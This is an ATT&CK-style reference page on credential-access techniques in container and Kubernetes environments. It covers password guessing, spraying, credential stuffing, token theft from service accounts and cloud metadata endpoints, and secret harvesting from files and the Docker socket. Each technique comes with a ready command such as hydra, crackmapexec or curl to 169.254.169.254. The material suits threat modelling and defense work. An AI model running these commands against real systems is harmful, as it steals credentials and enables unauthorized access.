 # Credentialed Access

### Credential Access in Containerized Environments

In containerized infrastructures, adversaries may seek credentials to escalate privileges, move laterally, or maintain persistence. This involves brute-forcing login interfaces (T1110), extracting secrets from files or mounted volumes, and stealing application-level access tokens from metadata services or pods.

***

#### 🧠 Brute Force → **Password Guessing (T1110.001)**

**Description**: Attempt to guess passwords through repeated login attempts.

**Container Example**:

*   Attacker brute-forces internal services like Redis, MySQL, Jenkins, or dashboards exposed via NodePort/Ingress:

    ```bash
    bashCopyEdithydra -l admin -P rockyou.txt http://<service-ip>/login
    ```
* Common targets: ArgoCD, Grafana, Kubeapps, Harbor, Kubernetes Dashboard.

**Goal**: Gain access to exposed services with weak authentication mechanisms.

***

#### 🧠 Brute Force → **Password Spraying (T1110.003)**

**Description**: Attempt the same password across multiple accounts to avoid lockout.

**Container Example**:

*   Spray `Password123!` across all known usernames (e.g., from ConfigMaps or public repos):

    ```bash
    bashCopyEdithydra -L users.txt -p Password123! http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
    ```

**Realistic Targets**:

* Internal GitLab, Keycloak, internal dashboards with multiple users.

***

#### 🧠 Brute Force → **Credential Stuffing (T1110.004)**

**Description**: Use leaked or stolen username/password pairs to access services.

**Container Example**:

*   Try known breached credentials from `haveibeenpwned`, GitHub leaks, or phishing:

    ```bash
    bashCopyEditcrackmapexec http <target-ip> -u users.txt -p passwords.txt
    ```

**Kubernetes Specific**:

* Use credentials to authenticate against exposed services, private registries, or web UIs.

***

#### 🎟️ Steal Application Access Token (T1528)

**Description**: Steal cloud provider metadata tokens or service account tokens to impersonate applications.

**Container Example**:

*   Inside compromised container:

    ```bash
    bashCopyEditcat /var/run/secrets/kubernetes.io/serviceaccount/token
    ```
*   AWS (from EC2, EKS pod):

    ```bash
    bashCopyEditcurl -H "X-aws-ec2-metadata-token: TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/
    ```
*   GCP (from GKE or Cloud Run):

    ```bash
    bashCopyEditcurl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
    ```

**Outcome**: Access APIs, Kubernetes clusters, or cloud services without valid user credentials.

***

#### 📂 Unsecured Credentials → **Credentials in Files (T1552.001)**

**Description**: Extract hardcoded or mounted credentials from known file locations.

**Container Example**:

*   Scan image or mounted volume for:

    ```bash
    bashCopyEditfind / -name "*.env" -o -name "*.yaml" -o -name "*config*" 2>/dev/null | xargs grep -Ei "pass|token|api_key|secret"
    ```

**Common Targets**:

* Kubernetes secrets accidentally mounted in `/etc/secrets/`, `/var/run/secrets/`, or embedded in container images.

***

#### 📦 Unsecured Credentials → **Container API (T1552.007)**

**Description**: Abuse exposed container APIs (e.g., Docker API or Kubernetes API) to retrieve secrets or container environment data.

**Container Example**:

*   Access the Docker socket:

    ```bash
    bashCopyEditcurl --unix-socket /var/run/docker.sock http://localhost/containers/json
    ```
*   Query environment variables with embedded credentials:

    ```bash
    bashCopyEditkubectl exec -it <pod> -- env | grep -Ei "secret|key|token"
    ```

**Impact**:

* Retrieve secrets from environment variables, configurations, or even mounted volumes used for automation/authentication.

***

### 🔎 Summary Table

| Technique               | Sub-Technique        | Containerized Use Case                              |
| ----------------------- | -------------------- | --------------------------------------------------- |
| Brute Force             | Password Guessing    | Use `hydra` or `medusa` to brute exposed dashboards |
| Brute Force             | Password Spraying    | Attempt common passwords across all users           |
| Brute Force             | Credential Stuffing  | Use leaked creds to hit known web interfaces        |
| Steal Application Token | —                    | Grab K8s SA token or cloud metadata credentials     |
| Unsecured Credentials   | Credentials in Files | Look for secrets in mounted volumes, env files      |
| Unsecured Credentials   | Container API        | Abuse Docker/Kubelet API or env to steal secrets    |
